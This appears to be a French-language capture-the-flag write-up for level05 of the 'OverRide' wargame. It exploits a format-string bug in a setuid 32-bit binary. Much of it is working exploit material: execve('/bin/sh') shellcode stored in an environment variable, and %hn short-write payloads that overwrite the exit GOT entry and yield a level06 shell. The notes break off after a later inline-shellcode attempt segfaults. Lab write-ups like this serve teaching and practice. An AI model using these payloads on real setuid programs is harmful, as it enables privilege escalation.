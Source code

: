 iRELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05

level05@OverRide:~$ file level05 
level05: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x1a9c02d3aeffff53ee0aa8c7730cbcb1ab34270e, not strippe

Le programme actuel recupere la string de gets et transforme les minuscules en majuscules.
Le premier argument du printf a *main+195 est notre string, ce qui correspond a une faille de type format string

level05@OverRide:~$ (python -c "print 'aaaa' + '%p ' * 30";cat) | ./level05
aaaa0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6df 0xffffd6de (nil) 0xffffffff 0xffffd764 0xf7fdb000 0x61616161 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070

Nous pouvons voir que notre string 'aaaa' apparait au printf access parameter numero 10

level05@OverRide:~$ (python -c "print 'aaaa' + '%p ' * 30";cat) | ./level05
aaaa0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6df 0xffffd6de (nil) 0xffffffff 0xffffd764 0xf7fdb000 0x61616161 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070

export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")

(gdb) x/s *((char **)environ+0)
0xffffd74a:      "EXPLOIT=<...>"

adresse exploit: 0xffffd74a
(gdb) p/d 0xffffd74a+200
$1 = 4294957074


(gdb) p/x 0xffffd74a+200
$2 = 0xffffd812
(gdb) x/s 0xffffd812

(gdb) p/d 0xd812
$4 = 55314
(gdb) p/d 0xd812-8
$5 = 55306

gdb-peda$ p/d 0xffff
$5 = 65535
(gdb) p/d 0xffff-55314
$6 = 10221

adresse exit: 0x80497e0

(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0x08048370  exit
0x08048370  exit@plt

Nous pouvons voir sur ce document, que les valeurs des int pris en compte par printf ont une limite :
https://cs155.stanford.edu/papers/formatstring-1.2.pdf

Comme a sa section 4.1 (Short write), nous allons passer notre adresse en deux fois afin d ecraser les deux premier octets, puis les deux derniers

=> 0x08048475 <+49>:    call   0x8048350 <fgets@plt> ; Size == 100
(gdb) x/wx $esp
0xffffd470:     0xffffd498
(gdb) x/s 0xffffd498
0xffffd498:      ""


(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%.55306u%10$hn" + "%.10221u%11$hn")'; cat) | ./level05
<...>
whoami
level06


(python -c 'print(len("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%.55306u%10$hn" + "%.10221u%11$hn"))')
34


p/d 100-8-23-13-13
$8 = 43 NOPs

Je recommence mes calculs avec un environnement vierge.

=> 0x08048475 <+49>:    call   0x8048350 <fgets@plt>
(gdb) x/wx $esp
0xffffd690:     0xffffd6b8
(gdb) x/s 0xffffd6b8
0xffffd6b8:      ""

(gdb) p/x 0xffffd6b8+8+21
$2 = 0xffffd6d5

(gdb) p/d 0xd6d5
$3 = 54997
(gdb) p/d 0xd6d5-8
$4 = 54989

(gdb) p/d 0xffff
$5 = 65535
(gdb) p/d 0xffff-54997
$6 = 10538

(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "\x90" * (100-8-23-13-13) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "%.54989u%10$hn" + "%.10538u%11$hn")'; cat) | ./level05
Segmentation fault (core dumped)

Je pense qu il ny a pas assez de NOPs de disponible afin de pouvoir etre sur qu une adresse arrive dans les NOPs.
